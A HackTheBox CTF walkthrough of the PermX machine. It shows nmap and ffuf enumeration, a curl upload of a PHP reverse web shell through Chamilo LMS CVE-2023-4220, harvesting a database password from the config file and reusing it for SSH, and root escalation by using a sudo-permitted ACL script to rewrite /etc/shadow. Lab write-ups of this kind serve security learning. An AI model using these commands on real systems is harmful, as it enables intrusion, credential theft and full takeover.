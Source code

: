 ```yaml
---
title: "PermX machine on HTB"
classes: wide
header:  
  teaser: /assets/images/posts/writeups/permx.jpg
  #overlay_image: /assets/images/main/header3.jpg
  overlay_filter: 0.5
ribbon: Firebrick
excerpt: "What can go wrong when a free and open source LMS is vulnerable? Basically everything! This time was Chamilo, next time..."
description: "Walkthrough on PermX machine from HackTheBox"
categories:
  - writeups
tags:
  - chamilo
  - LMS
  - curl
  - HTB
  - CTF
  - subdomain
  - writeup
  - HackTheBox
  - Easy
toc: false
---
```

# Ignite CTF

<img src="/assets/images/posts/writeups/permx.jpg" alt="PermX" width="500" class="align-center">

What can go wrong when a free and open source LMS is vulnerable? Basically everything! This time was Chamilo, next time...

## Information gathering

### Enumeration

#### nmap

Command:
```sh
nmap -sC -sV -p- -A 10.10.11.23
```

Results:
```sh
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
|_  256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: eLEARNING
|_http-server-header: Apache/2.4.52 (Ubuntu)
```
#### ffuf

Command:
```sh
ffuf -w /usr/share/wordlists/amass/subdomains-top1mil-5000.txt -H 'Host: FUZZ.permx.htb' -u http://permx.htb -fc 302
```

Results:
```sh
lms                     [Status: 200, Size: 19347, Words: 4910, Lines: 353, Duration: 71ms]
www                     [Status: 200, Size: 36182, Words: 12829, Lines: 587, Duration: 48ms]
WWW                     [Status: 200, Size: 36182, Words: 12829, Lines: 587, Duration: 48ms]
```

## Exploitation

### Foothold
1. Check subdomain lms.permx.htb is has an installation of Chamilo LMS
2. The LMS is vulnerable to file upload CVE-2023-4220: https://starlabs.sg/advisories/23/23-4220/?source=post_page-----136bfcb54ac2--------------------------------
3. Using curl we can upload a revwebshell
```sh
curl -F 'bigUploadFile=@rizi85_was_here.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
```
4. Check the folder were updates are stored and run the shell:
```sh
http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/
```
5. Once on the server check files /var/www/chamilo/app/config there is a configuration.php containing DB credentials
```sh
// Database connection settings.
$_configuration['db_host'] = 'localhost';
$_configuration['db_port'] = '3306';
$_configuration['main_database'] = 'chamilo';
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
// Enable access to database management for platform admins.
$_configuration['db_manager_enabled'] = false;
```
6. Checking home folder or content of /etc/passwd we can see there is a user called "mtz" on the machine, we can SSH with this user and DB password

#### Data exfiltration
1. Get the content of the user flag: **[UserFlag]**

### Privilege escalation
1. Run sudo -l and see user mtz can run:
```sh
User mtz may run the following commands on permx:  
(ALL : ALL) NOPASSWD: /opt/acl.sh
```
2. For privesc:
```sh
mtz@permx:~$ ln -s / root  
mtz@permx:~$ sudo /opt/acl.sh mtz rwx /home/mtz/root/etc/shadow  
mtz@permx:~$ nano /etc/shadow
```
3. Now we will copy the mtz hash in place of root hash and will login with the same password
4. Finally we can su root 

#### Data exfiltration
1. Get the root flag: **[RootFlag]**